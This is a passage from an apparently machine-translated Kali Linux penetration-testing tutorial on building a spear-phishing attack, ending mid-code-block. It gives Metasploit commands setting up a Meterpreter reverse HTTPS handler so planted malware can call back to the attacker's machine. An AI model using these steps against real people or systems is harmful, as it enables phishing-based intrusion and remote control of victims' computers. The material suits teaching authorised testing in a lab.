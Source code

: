![Creating a Spear-Phishing Attack with the Social Engineering Toolkit](img/image00949.jpeg)

在 Kali 1.x 中，这是两个步骤，但在 Kali 2.0 中，启动服务的前一个映像和打开 Metasploit Framework 控制台的下一个映像是一个命令：

![Creating a Spear-Phishing Attack with the Social Engineering Toolkit](img/image00950.jpeg)

1.  通过菜单**应用****08**启动 Metasploit 控制台。**利用工具****元 Sploit 框架**。您还可以通过在命令提示符下键入`msfconsole`来启动 Metasploit Framework 控制台，完全避免使用 GUI 菜单。
2.  确定您的侦听器将要侦听的本地主机地址，以便您的恶意软件可以打电话回家。在我们的测试网络中，Kali 服务器运行在物理主机上的虚拟机上。恶意软件传入时，主机的 IP 或来自虚拟机的桥接伪以太网卡必须是目标。如果您在 Internet 上的 VMS 机器上运行您的 Kali，这将稍微不那么困难。
3.  以下是测试网络的配置。有两台可以访问 Internet 的机器和两台只能从内部网络访问的服务器。Kali 186 是攻击者的笔记本电脑，Windows 10 工作站是内部网络的跳转盒。
4.  Once you have started Metasploit, you need to start the listener, so the malware you are about to create has something to answer the call when it phones home.

    在 msf 命令提示符中键入以下命令：

    ```
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST 10.0.0.2
    set LPORT 4343
    exploit
